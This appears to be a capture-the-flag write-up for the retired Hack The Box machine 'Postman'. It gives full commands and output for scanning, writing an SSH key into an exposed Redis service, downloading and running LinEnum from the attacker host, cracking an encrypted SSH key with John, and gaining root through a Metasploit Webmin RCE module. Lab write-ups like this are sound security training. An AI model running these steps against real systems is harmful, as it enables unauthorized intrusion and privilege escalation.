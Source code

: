 # Postman

This is the write-up for the box Postman that got retired at the 14th March 2020.
My IP address was 10.10.14.14 while I did this.

Let's put this in our hosts file:
```
10.10.10.160    postman.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/postman.nmap 10.10.10.160
```

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Full TCP port scan:
```
nmap -p- -o nmap/postman_allports 10.10.10.160
```
```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
10000/tcp open  snet-sensor-mgmt
```

## Checking HTTP (Port 80)

The web page shows a welcome page to _"The Cyber Geek's Personal Website_ and says that it is _"Unter Construction! Coming Soon!"_.
There is nothing interesting in the HTML source code, so lets search for hidden directories with **Gobuster**:
```
gobuster -u http://10.10.10.160 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds no relevant directories.

## Checking HTTP (Port 10000)

The web page on port 10000 shows the following message:
```
Error - Document follows

This web server is running in SSL mode. Try the URL https://Postman:10000/ instead.
```

The hostname _postman_ has to be put in the _/etc/hosts_ file to connect to the HTTPS site.
It then forwards to a [Webmin](https://www.webmin.com/) login form, which is an open source web-based interface for system administration for Unix systems:

![Webmin Login page](postman_web-1.png)

There is no further attack surface here for now.

## Checking Redis (Port 6379)

A connection to the **Redis** service can be established with `nc` and it is possible to use [commands from the Redis documentation](https://redis.io/commands). For example the `INFO` command:
```
nc -v 10.10.10.160 6379

INFO
$2724
# Server
redis_version:4.0.9
(...)
config_file:/etc/redis/redis.conf
```

By installing the _redis-tools_, it is more comfortable to enumerate the service:
```
apt install redis-tools
```
```
redis-cli -h 10.10.10.160
```

With the commands, it is possible to put our own SSH key into the _authorized keys_.

Creating own SSH key:
```
ssh-keygen -f postman
```

The public key has to have two line breaks at the beginning of the file and also two line breaks at the end to successfully write it.

Forwarding the public SSH key to the Redis service:
```
cat postman.pub | redis-cli -h 10.10.10.160 -x set crackit
```

Connecting to the Redis service:
```
redis-cli -h 10.10.10.160
```

Writing the generated SSH key into the _authorized_keys_:
```
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
```

After guessing the username as _redis_, it is possible to SSH into the box:
```
ssh -i postman redis@10.10.10.160
```

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Linux Enumeration script**:
```
wget 10.10.14.14/LinEnum.sh

./LinEnum.sh
```

After enumerating the box, there is a backup of a SSH key found in _/opt/id_rsa.bak_ that is encrypted:
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C
(...)
```

There is another user on the box called _Matt_ that it could belong to.
Trying to crack it with **John The Ripper**:
```
sshng2john id_rsa.bak > postman_id_rsa.john

john postman_id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
```

It gets cracked and the password for the SSH key is:
> computer2008

With this password, it is possible to switch users to _Matt_:
```
su - Matt
```

### Privilege Escalation to root

The credentials of _Matt_ also work on the **Webmin web interface** that was found earlier.
The version running is **Webmin 1.910**, so lets search for vulnerabilities for that:
```
searchsploit webmin
```
```
Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)
```

There is a **Metasploit module** that exploits a remote code execution vulnerability in the _Package Updates_:
```
msf6 > use exploit/linux/http/webmin_packageup_rce

msf6 exploit(linux/http/webmin_packageup_rce) > set LHOST tun0
msf6 exploit(linux/http/webmin_packageup_rce) > set RHOSTS 10.10.10.160
msf6 exploit(linux/http/webmin_packageup_rce) > set USER
msf6 exploit(linux/http/webmin_packageup_rce) > set USERNAME Matt
msf6 exploit(linux/http/webmin_packageup_rce) > set PASSWORD computer2008
msf6 exploit(linux/http/webmin_packageup_rce) > set SSL true

msf6 exploit(linux/http/webmin_packageup_rce) > exploit
```

After running the exploit successfully, it starts a shell session as root!
